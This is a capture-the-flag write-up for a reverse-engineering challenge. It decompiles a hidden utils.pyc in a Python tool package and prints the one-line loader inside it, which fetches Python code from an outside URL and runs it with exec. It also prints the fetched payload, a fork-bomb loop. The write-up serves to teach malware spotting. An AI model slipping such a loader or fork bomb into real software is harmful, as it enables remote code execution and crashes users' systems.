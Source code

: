 # Reverse Engineering-100: eggshells

This is the first exploitation problem and it starts with the following text:

> I trust people on the internet all the time, do you?
> 
> Written by ColdHeat
> 
> eggshells-master.zip

___
## Unzipping and Analyzing the Files

Let’s unzip the provided zip file:

```sh
$ unzip eggshells-master.zip
```

This creates a directory called *eggshells-master* that contains several *Python* and *exe* files. Let us look closer to the contend of this folder:

```sh
$ tree .
├── capstone.py
├── distorm.py
├── interpreter.py
├── main.py
├── nasm
│   ├── LICENSE
│   ├── nasm.exe
│   ├── ndisasm.exe
│   └── rdoff
│       ├── ldrdf.exe
│       ├── rdf2bin.exe
│       ├── rdf2com.exe
│       ├── rdf2ihx.exe
│       ├── rdf2ith.exe
│       ├── rdf2srec.exe
│       ├── rdfdump.exe
│       ├── rdflib.exe
│       └── rdx.exe
├── nasm.py
├── server.py
├── shellcode.py
├── utils.pyc
└── wrapper.py
```

Do you see anything unusual?

___

## Decompiled a pre-compiled Python File

A pre-compiled Python file stands out in this list: *utils.pyc*. We need to decompile it. For this task we use  [uncompyle2], which can be installed with:

```sh
$ sudo pip install uncompyle2
``` 

Let's learn a bit more about this tool with ```uncompyle2 --help```. The usage is straightfoward, but it's a good knowledge to learn about the *-o* flag, which will decompile to a *.dis* file instead of *stdout*:

```sh
Usage: uncompyle2 [OPTIONS]... [ FILE | DIR]...

Examples:
  uncompyle2      foo.pyc bar.pyc       # decompile foo.pyc, bar.pyc to stdout
  uncompyle2 -o . foo.pyc bar.pyc       # decompile to ./foo.dis and ./bar.dis
  uncompyle2 -o /tmp /usr/lib/python1.5 # decompile whole library

Options:
  -o <path>     output decompiled files to this path:
                if multiple input files are decompiled, the common prefix
                is stripped from these names and the remainder appended to
                <path>
                  uncompyle -o /tmp bla/fasel.pyc bla/foo.pyc
                    -> /tmp/fasel.dis, /tmp/foo.dis
                  uncompyle -o /tmp bla/fasel.pyc bar/foo.pyc
                    -> /tmp/bla/fasel.dis, /tmp/bar/foo.dis
```

We could also use *.py* extension if we like:
```sh
  --py          use '.py' extension for generated files
```

Also, we learn about all the possible outputs:
```sh
 Extensions of generated files:
  '.pyc_dis' '.pyo_dis'   successfully decompiled (and verified if --verify)
  '.py'                   with --py option
    + '_unverified'       successfully decompile but --verify failed
    + '_failed'           uncompyle failed (contact author for enhancement)
```

All right, no more diverging. Let's play! We run the ```uncompyle2``` command and obtain the following:
```sh
$ uncompyle2 utils.pyc
#Embedded file name: /Users/kchung/Desktop/CSAW Quals 2014/rev100/utils.py
exec __import__('urllib2').urlopen('http://kchung.co/lol.py').read()
+++ okay decompyling utils.pyc 
# decompiled 1 files: 1 okay, 0 failed, 0 verify failed
```

___
## Parsing the Result and Voilà 

So all that this file does is in this line:
```python
exec __import__('urllib2').urlopen('http://kchung.co/lol.py').read()
```

To understand this code,, we need to know that Python's [exec] method performs dynamic execution of code.  In this problem, *exec* starts importing [urllib2], which is a library for opening URLs.  It has the method [urlopen()] to open the URL url, which can be either a string or a request object. This function returns a file-like object with three additional methods. Finally, [read()] would read this returned file.

So all that this script does is to try running a Python file that is hosted online! 
Well, let's see what this file does! Let's just *curl* [http://kchung.co/lol.py]:
 
```sh 
$  curl http://kchung.co/lol.py
import os
while True:
    try:
        os.fork()
    except:
        os.system('start')
# flag{trust_is_risky}
```

Yaaay! The flag is **trust_is_risky**! Easy!

**Hack all the things!**


[uncompyle2]: https://github.com/gstarnberger/uncompyle
[http://kchung.co/lol.py]: http://kchung.co/lol.py
[exec]: https://docs.python.org/2/reference/simple_stmts.html#exec
[urllib2]: https://docs.python.org/2/library/urllib2.html#module-urllib2
[urlopen()]: https://docs.python.org/2/library/urllib2.html#urllib2.urlopen
[read()]: http://www.tutorialspoint.com/python/file_read.htm
